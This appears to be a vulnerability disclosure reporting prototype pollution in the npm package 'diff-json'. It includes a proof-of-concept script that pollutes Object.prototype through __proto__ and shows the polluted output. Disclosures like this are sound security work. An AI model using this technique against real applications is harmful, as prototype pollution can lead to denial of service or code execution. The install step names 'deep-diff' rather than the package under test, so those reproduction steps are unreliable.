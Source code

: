 # Description

`diff-json` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var diffJson = require("diff-json")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
diffJson.diff(a, b);
console.log({}.name) 
```

2. Execute the following commands in another terminal:

```bash
npm i deep-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
